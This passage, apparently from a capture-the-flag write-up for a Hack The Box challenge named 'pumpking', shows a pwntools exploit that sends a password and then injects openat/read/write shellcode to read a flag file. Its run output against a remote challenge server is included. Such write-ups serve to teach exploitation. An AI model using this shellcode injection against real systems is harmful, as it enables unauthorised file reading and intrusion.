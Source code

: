 ```python

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        fd = 3 # the minimun file descriptor locally is  3
        route = b'/tmp/flag.txt'
        return start_local(argv, *a, **kw), route, fd
    else:
        route = b'/home/ctf/flag.txt'
        fd = 5 # the minimun file descriptor locally is  3
        return start_remote(argv, *a, **kw), route, fd

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments
# RUNPATH:  b'./glibc/'

io, route, fd = start()


shellcode  = b''
shellcode += asm(shellcraft.openat(0, route)) # save it in the mininum file descriptor allowed
shellcode += asm(shellcraft.read(fd, 'rsp', 80)) 
shellcode += asm(shellcraft.write(1 , 'rsp', 80))

print(f"Len shellcode: {len(shellcode)}")

io.sendlineafter(b'kids: ', b'pumpk1ngRulez')
io.sendlineafter(b'>> ', shellcode)

io.interactive()
```

And execute it (without `LOCAL` argument to do it remotely) and get the flag: 

```shell
magor$ python solve_pumpking.py
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
[+] Opening connection to 159.65.49.148 on port 30454: Done
Len shellcode: 78
[*] Switching to interactive mode
[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!
>> \x00HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```